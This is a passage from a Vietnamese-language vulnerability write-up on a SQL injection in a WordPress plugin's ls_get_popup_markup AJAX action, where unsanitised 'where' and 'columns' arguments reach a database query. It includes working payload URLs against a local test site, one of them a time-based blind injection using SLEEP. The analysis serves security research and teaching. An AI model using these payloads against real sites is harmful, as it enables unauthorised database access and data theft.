 Và cuối cùng khi thực hiện truy vấn, đoạn code lấy giá trị trực tiếp từ 2 biến $args[‘where’] và $args[‘columns'] để thực thi: 

![Image 25](../assets/ManhPost/post1/img25.png)

payload: 
```http
http://localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]=hello&id[columns]=bruh%20bruh
```

![Image 26](../assets/ManhPost/post1/img26.png)

Test lần lượt các tham số:

  - với tham số **$args[‘columns’]** :

Payload: 
```http
localhost:8000/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[columns]=id AND (SELECT 2867 FROM (SELECT(SLEEP(2)))zLaK)
```
